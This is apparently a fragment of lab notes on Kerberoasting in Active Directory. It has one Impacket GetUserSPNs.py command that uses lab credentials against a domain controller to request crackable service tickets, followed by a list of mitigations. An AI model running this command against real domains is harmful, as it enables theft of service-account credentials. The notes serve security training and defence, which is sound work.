


___




```
GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip 192.168.15.18 -request
```



## Mitigations

- Service Account (SQL) does not require to be running as the Domain Admin
- Do not store the service account password in the description of your Active Directory account
- Strong Passwords
- Least privileges

